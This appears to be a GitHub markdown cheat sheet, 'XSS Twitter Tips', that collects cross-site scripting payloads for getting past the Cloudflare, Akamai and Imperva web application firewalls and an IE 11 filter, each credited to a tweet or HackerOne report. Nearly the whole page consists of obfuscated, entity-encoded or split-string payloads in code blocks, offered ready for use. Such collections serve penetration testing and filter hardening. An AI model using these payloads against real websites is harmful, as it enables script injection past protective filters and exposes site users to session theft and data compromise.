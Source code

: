 # XSS Twitter Tips

## Cloudflare XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```
----------------------------------------------------------------------------------------

*[Tweet](https://twitter.com/s0md3v/status/1100734547962998785) By [s0md3v](https://twitter.com/s0md3v)*
```html
<a"/onclick=(confirm)()>Click Here!
```

----------------------------------------------------------------------------

## Akamai XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*
```html
“><svg/on</script>laod=alert>
```

*[Tweet](https://twitter.com/saamux/status/1238449598051516418) By [saamux](https://twitter.com/saamux)*

A good way to bypass the Akamai WAF by exploiting a redirect-based XSS is with the following payload:

```javascript
javascript:new%20Function`al\ert\`1\``;
```
You can also obfuscate it using HTML entities

----------------------------------------------------------------------------

## WAF/filter Bypass
*[Tweet](https://twitter.com/si9int/status/1239633166438223874) By [si9int](https://twitter.com/si9int)*
![XSS](https://images-ext-1.discordapp.net/external/igR8oewSZci1zKzKoqk0xr9PunkJoDHTmGgLLi6FYfw/https/pbs.twimg.com/media/ETQPvU3WoAMiDBw.png%3Alarge)

----------------------------------------------------------------------------

## Imperva WAF Bypass

*[Tweet](https://twitter.com/ahmetumitbayram/status/1248372473533431809) By Ahmet Ümit BAYRAM([@ahmetumitbayram](https://twitter.com/ahmetumitbayram))* [10 Apr 2020]
```html
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">
```
`- without parentheses, 'alert', 'document.domain' , 'window' , space`

----------------------------------------------------------------------------

## IE Bypass
### IE 11 Xss Bypass 
*[Report #127259](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)*

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
